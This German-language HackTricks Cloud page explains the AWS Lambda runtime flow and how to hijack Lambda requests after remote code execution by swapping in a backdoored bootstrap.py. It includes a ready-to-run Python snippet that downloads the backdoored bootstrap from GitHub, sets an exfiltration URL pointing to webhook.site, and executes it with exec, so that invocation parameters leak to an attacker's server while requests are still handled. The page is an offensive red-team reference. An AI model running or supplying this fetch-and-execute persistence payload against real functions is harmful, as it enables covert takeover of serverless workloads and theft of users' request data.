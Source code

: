 # AWS - Lambda-Anfragen stehlen

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Lambda-Flow

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** ist ein Prozess außerhalb des Containers, der **Aufrufe** an den **Init**-Prozess **sendet**.
2. Der Init-Prozess hört auf Port **9001** und bietet einige interessante Endpunkte an:
* **`/2018-06-01/runtime/invocation/next`** – hole das nächste Aufrufereignis
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – gib die Handler-Antwort für den Aufruf zurück
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – gib einen Ausführungsfehler zurück
3. **bootstrap.py** hat eine Schleife, die Aufrufe vom Init-Prozess erhält und den Benutzer-Code aufruft, um sie zu verarbeiten (**`/next`**).
4. Schließlich sendet **bootstrap.py** die **Antwort** an Init.

Beachte, dass bootstrap den Benutzer-Code als Modul lädt, sodass jede Codeausführung, die vom Benutzer-Code durchgeführt wird, tatsächlich in diesem Prozess stattfindet.

## Stehlen von Lambda-Anfragen

Das Ziel dieses Angriffs ist es, den Benutzer-Code dazu zu bringen, einen bösartigen **`bootstrap.py`**-Prozess innerhalb des **`bootstrap.py`**-Prozesses auszuführen, der die verwundbare Anfrage verarbeitet. Auf diese Weise wird der **bösartige Bootstrap**-Prozess beginnen, mit dem Init-Prozess zu **kommunizieren**, um die Anfragen zu bearbeiten, während der **legitime** Bootstrap **gefangen** ist und den bösartigen ausführt, sodass er keine Anfragen an den Init-Prozess stellt.

Dies ist eine einfache Aufgabe, da der Code des Benutzers vom legitimen **`bootstrap.py`**-Prozess ausgeführt wird. Der Angreifer könnte also:

* **Ein gefälschtes Ergebnis des aktuellen Aufrufs an den Init-Prozess senden**, sodass Init denkt, der Bootstrap-Prozess wartet auf weitere Aufrufe.
* Eine Anfrage muss an **`/${invoke-id}/response`** gesendet werden.
* Die invoke-id kann vom Stack des legitimen **`bootstrap.py`**-Prozesses mit dem [**inspect**](https://docs.python.org/3/library/inspect.html) Python-Modul (wie [hier vorgeschlagen](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) oder einfach erneut angefordert werden an **`/2018-06-01/runtime/invocation/next`** (wie [hier vorgeschlagen](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Einen bösartigen **`bootstrap.py`** ausführen, der die nächsten Aufrufe verarbeitet.
* Aus Gründen der Heimlichkeit ist es möglich, die Lambda-Aufrufparameter an ein vom Angreifer kontrolliertes C2 zu senden und die Anfragen dann wie gewohnt zu bearbeiten.
* Für diesen Angriff reicht es aus, den ursprünglichen Code von **`bootstrap.py`** vom System oder [**GitHub**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) zu erhalten, den bösartigen Code hinzuzufügen und ihn aus dem aktuellen Lambda-Aufruf auszuführen.

### Angriffs Schritte

1. Finde eine **RCE**-Schwachstelle.
2. Generiere einen **bösartigen** **Bootstrap** (z.B. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Führe** den bösartigen Bootstrap aus.

Du kannst diese Aktionen einfach ausführen, indem du Folgendes ausführst:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Für weitere Informationen siehe [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Referenzen

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos sendest.

</details>
{% endhint %}
